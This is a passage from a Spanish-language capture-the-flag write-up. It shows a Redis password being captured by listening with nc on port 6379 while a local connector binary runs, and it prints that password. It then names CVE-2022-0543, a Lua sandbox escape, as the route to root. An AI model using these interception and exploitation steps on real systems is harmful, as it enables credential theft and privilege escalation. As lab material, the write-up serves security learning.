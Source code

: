Entonces lo que hacemos es abrir el puerto **6379** para esperar esa conexión y recibir la contraseña de la autenticación:

```console
❯ chmod +x redis_connector_dev
❯ ./redis_connector_dev
[+] Logging to redis instance using password...

INFO command result:
 dial tcp 127.0.0.1:6379: connect: connection refused <------- Connection failed (1)
❯ ./redis_connector_dev
[+] Logging to redis instance using password...       <------- Successfull connection (3)

INFO command result:
 i/o timeout

──────────────────────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 6379					     <-------- Open port (2)
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::6379
Ncat: Listening on 0.0.0.0:6379
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:51178.
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq <------- Password
```

Al conectarnos vemos varios simbolos, pues esto se debe a que los clientes `redis` usan el protocolo **RESP(REdis Serialization Protocol)** para comunicarse con el servidor. Cuando se realiza la petición, estos datos se trasmiten como un **arreglo de strings**, aquí la explicación de los símbolos:

![RESPProtocol](resp_protocol.png){: .shadow}

> Más informacions sobre [RESP protocol](https://redis.io/docs/reference/protocol-spec/)
{: .prompt-info}

Como ya tenemos una autenticación exitosa, ahora toca intentar explotar distintas vulnerabilidades que existen para `redis`

Usamos como fuente la biblia de los Hacker **Hacktricks**, en mi caso solo me funcionó usar la forma **Lua sandbox byass**, especificamente **CVE-2022-0543** que consiste en poder insertar código **Lua** (lenguaje que aporta al funcionamiento de `Redis`) a traves del comando **EVAL** y con ello ejecutar código remoto

Antes tenemos que verificar que este proceso está siendo ejecutado como el usuario privilegiado, así que listamos rápidamente los procesos del sistema y confirmamos que el  usuario `root` es quien está iniciando el servidor `redis`:

```console
dan_smith@shared:/tmp$ ps aux
...
root       30024  0.2  0.7  65104 14664 ?        Ssl  21:13   0:00 /usr/bin/redis-server 127.0.0.1:6379 <----- Root
dan_smi+   30030  0.0  0.1   9700  3192 pts/2    R+   21:13   0:00 ps aux
```
